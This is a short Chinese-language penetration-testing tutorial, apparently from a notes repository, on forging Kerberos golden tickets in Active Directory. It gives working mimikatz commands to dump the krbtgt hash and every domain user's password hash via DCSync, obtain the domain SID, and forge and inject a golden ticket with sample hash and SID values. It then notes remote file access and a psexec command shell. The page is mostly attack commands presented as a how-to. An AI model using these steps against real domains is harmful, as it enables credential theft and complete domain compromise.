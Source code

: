 ```yaml
---
title: 5.1.2 黄金票据利用
id: zhfly3433
---
```


### 5.1.2 黄金票据利用

#### 1、导出 krbtgt 密码 hash

```
mimikatz#lsadump::dcsync /domain:adtest.com /user:krbtgt 
```

![image](../img/d52c4a2c3ab24318f8ad382745a099ee.png)

导出所有域内用户密码 hash 值:

```
mimikatz#lsadump::dcsync /domain:adtest.com /all /csv 
```

![image](../img/977bea729ffaa2aebb7a835ef2d1673c.png)

#### 2、获取域 SID

在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID

```
whoami /all 
```

![image](../img/c5f84709587920cea1fb9f65a39399bd.png)

#### 3、伪造黄金票据

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4: 6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt" 
```

这里可以不指定 target 和 service

```
kerberos::golden /domain:adtest.com /sid:S-1-5-21-3418659180-3421952656-
1938706522 /rc4:6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt 
```

![image](../img/babb7a55c996631163013123f0fc3929.png)

使用 klist 查看本地缓存的票据

![image](../img/cab325d5100703c6ae80ea52fa1322dd.png)

获得票据后可直接通过 dir 远程访问主机，可以直接使用 ipc 进行连接:

![image](../img/1ce70ff399125655bc6b457ba678516e.png)

当然也可以使用 psexec 去获得一个 cmdshell:

![image](../img/a8aa83b588eef93b5ce037cae3faa33f.png)

> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。